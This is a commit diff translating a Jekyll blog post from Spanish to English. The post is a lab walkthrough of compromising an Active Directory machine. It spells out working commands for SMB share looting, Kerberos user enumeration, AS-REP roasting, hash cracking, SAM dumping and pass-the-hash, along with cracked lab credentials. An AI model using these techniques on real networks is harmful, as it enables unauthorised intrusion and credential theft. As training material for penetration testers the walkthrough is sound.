

Before and after one commit to b3nj1-1/blog, a Jekyll site: the page built from index.html, in a window 1280 px wide and 1068 px high. Shown: the whole window, without its empty margins (0-975 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; the list of posts is cut into pages by our own code; part of the change alters nothing that is shown.

Commit message:
Update AD

````diff
--- a/_posts/2021-08-30-AD_part1.md
+++ b/_posts/2021-08-30-AD_part1.md
@@ -1,6 +1,6 @@
 ---
 layout: post
-title:  "Active Directory I"
+title:  "Active Directory"
 date:   2021-08-30 04:52:29 +0200
 last_modified_at: 2021-08-30 04:52:29 +0200
 toc:  true
@@ -8,13 +8,14 @@ tags: [Active Directory, AS-REP Roast, Passthehashm, walkthroughs]
 categories: Active Directory
 ---
 
-{: .message}
+In this article I use a basic methodology to breach an Active Directory, this article will be the first of a saga that will be oriented to AD walkthroughs.
 
-En este artículo utilizo una metodología básica para vulnerar un Active Directory, este artículo será el primero de una saga que serán orientados a walkthroughs de AD.
+---
 
-## Enumeración
+
+## Enumeration
 ### Nmap
-*Puertos:*
+*Ports:*
 * 53/tcp  -->  Simple DNS Plus
 * 88/tcp   -->  kerberos-sec  Microsoft Windows Kerberos
 * 135/tcp  --> Microsoft Windows RPC
@@ -61,7 +62,7 @@ Service detection performed. Please report any incorrect results at https://nmap
 
 ### Lightweight Directory Access Protocol
 
-[LDAP](https://www.profesionalreview.com/2019/01/05/ldap/) es importante siempre escanear ldap porque este podria tener nombres, apellidos y direcciones que están escritos en formato de mapa DTMF aunque en este caso en especifico no lo utilizaremos, aqui les dejo la herramienta (Podríamos también escanear ldap con nmap):
+[LDAP](https://www.profesionalreview.com/2019/01/05/ldap/) it is important to always scan ldap because it could have names, surnames and addresses that are written in DTMF map format although in this specific case we will not use it, here I leave the tool (We could also scan ldap with nmap):
 ```bash
 ldapsearch -x -h 10.10.45.157
 # extended LDIF
@@ -83,12 +84,12 @@ text: 000004DC: LdapErr: DSID-0C090A5C, comment: In order to perform this opera
 
 ### SMB
 
-En este punto frente a un AD lo ideal sería recopilar toda la información posible, una fuente de información la cual se debe investigar bien es el Server Message Block [(SMB)](https://www.educba.com/what-is-smb/)).
+At this point, when faced with an AD, the ideal would be to gather as much information as possible. [(SMB)](https://www.educba.com/what-is-smb/)).
 
-En esta oportunidad hacemos uso de la herramienta smbclient pero tenemos varias alternativas como el [SMBMap](https://github.com/ShawnDEvans/smbmap) y el [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec):
+In this opportunity we make use of the smbclient tool but we have several alternatives such as the [SMBMap](https://github.com/ShawnDEvans/smbmap) and the [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec):
 
-* -N(--no-pass) este parámetro suprime el mensaje de contraseña normal.
-* -L(--list) este parámetro permite ver qué carpetas están disponibles en un servidor.
+* -N(--no-pass) this parameter suppresses the normal password message.
+* -L(--list) this parameter allows you to see which folders are available on a server.
 ```bash
 smbclient -L //10.10.45.157 -N
 
@@ -104,7 +105,7 @@ smbclient -L //10.10.45.157 -N
 SMB1 disabled -- no workgroup available
 ```
 
-Cuando vemos que carpetas esta compartidas procedemos a descargar todo el contenido que contienen las mismas en busca de posibles usuarios[recurse, prompt, mget](https://www.computerhope.com/unix/smbclien.htm):
+When we see which folders are shared we proceed to download all the content they contain in search of possible users.[recurse, prompt, mget](https://www.computerhope.com/unix/smbclien.htm):
 
 ```bash
 smbclient //10.10.45.157/VulnNet-Business-Anonymous
@@ -134,7 +135,7 @@ smb: \>
 
 ### Lookupsid
 
-Otra alternativa para enumerar los usuarios seria por el protocolo [rpc](https://www.samba.org/samba/docs/current/man-html/rpcclient.1.html) esto basicamente lo que me permite es realizar bruteforcing de los SID de Windows para identificar usuarios / grupos en el objetivo remoto:
+Another alternative to enumerate users would be through the [rpc](https://www.samba.org/samba/docs/current/man-html/rpcclient.1.html) protocol which basically allows me to perform bruteforcing of Windows SIDs to identify users / groups on the remote target:
 
 ```bash
 impacket-lookupsid vulnnet-rst.local/guest:@10.10.45.157
@@ -179,13 +180,13 @@ Password:
 
 ### Wordlist
 
-Vemos el contenido de cada archivo en busca de patrones comunes entre archivos:
+We look at the contents of each file for common patterns between files:
 ![](/images_blog/img_vulnet_roasted/roasted_wordlist.png)
 ![roasted_wordlist](https://user-images.githubusercontent.com/76759292/131405007-45cb2bb0-c792-4dfa-a4a7-c50af0843537.png)
 
-En algunos archivos encontramos nombres, la idea sería crear un diccionario en base a esos nombres que encontramos para posteriormente utilizarlo.
+In some files we find names, the idea would be to create a dictionary based on those names that we find to later use it.
 
-Este script me permite realizar un diccionario de manera rapida:
+This script allows me to make a dictionary in a fast way:
 [Wordlist-Name](https://github.com/PinkDraconian/CTF-bash-tools/blob/master/scripts/ctf-wordlist-names.sh)
 ```bash
 #!/bin/bash
@@ -220,7 +221,8 @@ $lastname.$(echo $firstname | cut -c1)" >> formatted_name_wordlist.txt
 done
 ```
 
-Sacamos los nombres de todos los archivo que habiamos extraido (Tener en cuenta que comúnmente en AD se utilizan nomenclaturas para los usuarios):
+We extract the names of all the files that we had extracted (Keep in mind that commonly in AD nomenclatures are used for the users):
+
 ```bash
 cat users.txt
 Alexa Whitehat
@@ -229,17 +231,17 @@ Tony Skid
 Johnny Leet
 ```
 
-Utilizamos este script para que nos automatice la parte de crear las nomenclaturas para cada usuario, simplemente es ejecutar el script, pasarle la lista de usuarios y listo este nos creara una lista de nombres de usuario con diferente nomenclatura que podemos utilizar para hacer bruteforcing:
+We use this script to automate the part of creating the nomenclature for each user, just run the script, pass the list of users and ready this will create a list of usernames with different nomenclature that we can use for bruteforcing:
 ![](/images_blog/img_vulnet_roasted/roasted_wordlist_format.png)
 ![roasted_wordlist_format](https://user-images.githubusercontent.com/76759292/131405038-80e9707b-7b3d-4e4c-aa81-4de55cb17044.png)
 
 ### Kerbrute
 
-Comprobaremos cuales usuarios de nuestra lista son válidos en el dominio mediante un ataque de fuerza bruta mediante la biblioteca Impacket con la herramienta [kerbrute](https://github.com/ropnop/kerbrute).
+We will check which users of our list are valid in the domain by means of a brute force attack using the Impacket library with the tool [kerbrute](https://github.com/ropnop/kerbrute).
 
-*Uso:*
-* --dc colocamos la ip del controlador de dominio.
-* -d colocamos el dominio completo.
+*Use:*
+* --dc we place the ip of the domain controller.
+* -d we place the complete domain.
 
 ```bash
 kerbrute userenum --dc 10.10.45.157 -d vulnnet-rst.local formatted_name_wordlist.txt
@@ -264,9 +266,9 @@ Version: v1.0.3 (9dad6e1) - 08/29/21 - Ronnie Flathers @ropnop
 
 ### GetNPUsers
 
-Este script intentará enumerar y obtener TGTs para aquellos usuarios que tengan establecida la propiedad 'No requiere autenticación previa kerberos' (UF_DONT_REQUIRE_PREAUTH). [Impacket/GetNPUsers](https://www.aldeid.com/wiki/Impacket/GetNPUsers) [GetNPUsers.py](https://foxed.github.io/GetNPUsers/)
+This script will attempt to enumerate and obtain TGTs for those users that have the 'No kerberos preauthentication required' property set. (UF_DONT_REQUIRE_PREAUTH). [Impacket/GetNPUsers](https://www.aldeid.com/wiki/Impacket/GetNPUsers) [GetNPUsers.py](https://foxed.github.io/GetNPUsers/)
 
-Podemos simplemente pasarle el diccionario o lo podríamos hacer así cualquier forma seria valida para cumplir con el objetivo:
+We can simply pass you the dictionary or we could do it this way, any way would be valid to meet the objective:
 
 ```bash
 for u in $(cat diccionario.txt);do impacket-GetNPUsers vulnnet-rst.local/$u -request -no-pass -dc-ip 10.10.45.157; done
@@ -294,7 +296,7 @@ Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation
 
 ### John The Ripper
 
-Utilizando john vamos a romper el hash que previamente obtuvimos con la enumeración a kerberos, con el objetivo de ver la contraseña en texto claro:
+Using john we are going to break the hash that we previously obtained with the enumeration to kerberos, in order to see the password in clear text:
 
 ```bash
 john hash --wordlist=/usr/share/wordlists/rockyou.txt
@@ -307,13 +309,13 @@ Use the "--show" option to display all of the cracked passwords reliably
 Session completed
 ```
 
-*Credenciales:*
+*Crendentials:*
 * t-skid
 * tj072889*
 
 ### CME
 
-Tenemos credenciales la idea sería comprobar en que carpeta compartida el usuario que obtuvimos tiene permiso, esto lo podemos hacer con:
+We have credentials the idea would be to check in which shared folder the user that we obtained has permission, this we can do it with:
 
 ```bash
 crackmapexec smb 10.10.45.157 -u "t-skid" -p "tj072889*" --shares
@@ -331,13 +333,13 @@ SMB         10.10.45.157    445    WIN-2BO8M1OE1M1  VulnNet-Business-Anonymous R
 SMB         10.10.45.157    445    WIN-2BO8M1OE1M1  VulnNet-Enterprise-Anonymous READ            VulnNet Enterprise Sharing
 ```
 
-Vemos que tenemos acceso a IPC, NETLOGON y SYSVOL.
+We see that we have access to IPC, NETLOGON and SYSVOL.
 
-Aquí les dejo un módulo que me pareció interesante de cme [spider_plus](https://www.infosecmatter.com/crackmapexec-module-library/?cmem=smb-spider_plus).
+Here is a module that I found interesting from cme [spider_plus](https://www.infosecmatter.com/crackmapexec-module-library/?cmem=smb-spider_plus).
 
-También les dejo todos los módulos disponibles que tiene[CrackMapExec Module Library](https://www.infosecmatter.com/crackmapexec-module-library/).
+I also leave you all the available modules that [CrackMapExec Module Library](https://www.infosecmatter.com/crackmapexec-module-library/) has.
 
-Este básicamente me automatiza el entrar a cada recurso compartido con dicho usuario, dando un poco de contexto esto nos seria de utilidad si tenemos muchos recursos que enumerar:
+This one basically automates me to enter to each shared resource with this user, giving a little context this would be useful if we have many resources to enumerate:
 
 ```bash
 crackmapexec smb 10.10.45.157 -u "t-skid" -p "tj072889*" -M spider_plus
@@ -351,11 +353,11 @@ SPIDER_P... 10.10.45.157    445    WIN-2BO8M1OE1M1  [*]       SIZE: 51200
 SPIDER_P... 10.10.45.157    445    WIN-2BO8M1OE1M1  [*]     OUTPUT: /tmp/cme_spider_plus
 ```
 
-Aqui vemos que en el recurso compartido NETLOGON se encuentra un script especificamente un VBScript de microsoft:
+Here we see that in the NETLOGON shared resource there is a script, specifically a Microsoft VBScript:
 ![](/images_blog/img_vulnet_roasted/roasted_spider_cme.png)
 ![roasted_spider_cme](https://user-images.githubusercontent.com/76759292/131405072-bc33bae9-4d6a-4b91-aba6-be89127b2cbc.png)
 
-Procedemos a descargar el archivo para analizarlo y busca información útil:
+We proceed to download the file to analyze it and look for useful information:
 
 ```bash
 smbclient //10.10.45.157/NETLOGON -U t-skid
@@ -372,19 +374,19 @@ getting file \ResetPassword.vbs of size 2821 as ResetPassword.vbs (1.8 KiloBytes
 smb: \>
 ```
 
-Para dar un poco de contexto sobre este archivo [¿Qué es VBScript?](https://www.taringa.net/+info/que-es-vbscript_12rc00).
+To give some context about this file [¿Qué es VBScript?](https://www.taringa.net/+info/que-es-vbscript_12rc00).
 
 ![](/images_blog/img_vulnet_roasted/roasted_vbs.png)
 ![roasted_vbs](https://user-images.githubusercontent.com/76759292/131405093-a52517a0-646f-49c1-8085-c6c9b9eb6da3.png)
 
-Luego de analizar el script me encuentro con credenciales sin cifrar de un usuario valido en el dominio (El usuario a-whitehat fue uno de los que extrajo kerbrute):
+After analyzing the script I find unencrypted credentials of a valid user in the domain (The user a-whitehat was one of those extracted by kerbrute):
 
 ```bash
 strUserNTName = "a-whitehat"
 strPassword = "bNdKVkjv3RR9ht"
 ```
 
-Compruebo si las credenciales de este usuario que sacamos del script es correcto (Esto lo podemos ver con el signo + si fuera lo contrario daría un –):
+I check if the credentials of this user that we get from the script is correct (This we can see with the + sign if it were the opposite it would give a -):
 
 ```bash
 crackmapexec smb 10.10.45.157 -u "a-whitehat" -p "bNdKVkjv3RR9ht"
@@ -392,7 +394,7 @@ SMB         10.10.45.157    445    WIN-2BO8M1OE1M1  [*] Windows 10.0 Build 17763
 SMB         10.10.45.157    445    WIN-2BO8M1OE1M1  [+] vulnnet-rst.local\a-whitehat:bNdKVkjv3RR9ht (Pwn3d!)
 ```
 
-En este punto podriamos con [impacket/psexec.py)](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) establecernos una shell ya que contamos con los permisos para hacerlo (Se que tengo permisos por el (Pwn3d!) que me dice cme, esto me aparece en la pantalla cuando el usuario es un administrador local) pero la idea es convertirnos en administrador del controlador de dominio entonces para esto extraemos la [Security Account Manager](https://en.wikipedia.org/wiki/Security_Account_Manager) del equipo ya que somos administrador local:
+At this point we could with [impacket/psexec.py)](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) establish a shell since we have the permissions to do so (I know I have permissions by the (Pwn3d!) that tells me cme, this appears on the screen when the user is a local administrator) but the idea is to become administrator of the domain controller then for this we extract the [Security Account Manager](https://en.wikipedia.org/wiki/Security_Account_Manager) of the computer since we are local administrator:
 
 ```bash
 crackmapexec smb 10.10.45.157 -u "a-whitehat" -p "bNdKVkjv3RR9ht" --sam
@@ -407,7 +409,7 @@ SMB         10.10.45.157    445    WIN-2BO8M1OE1M1  [+] Added 3 SAM hashes to th
 ```
 
 ### Wmiexec
-Tenemos la SAM del equipo la idea seria hacer `PassTheHash` al administrador (Esto sucede mayormente cuando el administrador del dominio se logguea en una maquina con sus credenciales), para hacer esto utilizamos la herramienta de [impacket wmiexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py)
+We have the SAM of the machine, the idea would be to make `PassTheHash` to the administrator (This happens mostly when the domain administrator logs into a machine with his credentials), to do this we use the tool [impacket wmiexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py)
 [Pass the Hash](https://dmcxblue.gitbook.io/red-team-notes/lateral-movement/pass-the-hash)
 
 ```bash
@@ -423,4 +425,4 @@ vulnnet-rst\administrator
 
 ### Plus
 
-[Mitigación de ataques Pass-the-Hash](https://www.elladodelmal.com/2014/07/mitagacion-de-ataques-pass-hash-y-pass.html)
+[Pass-the-Hash attack mitigation](https://www.elladodelmal.com/2014/07/mitagacion-de-ataques-pass-hash-y-pass.html)
````
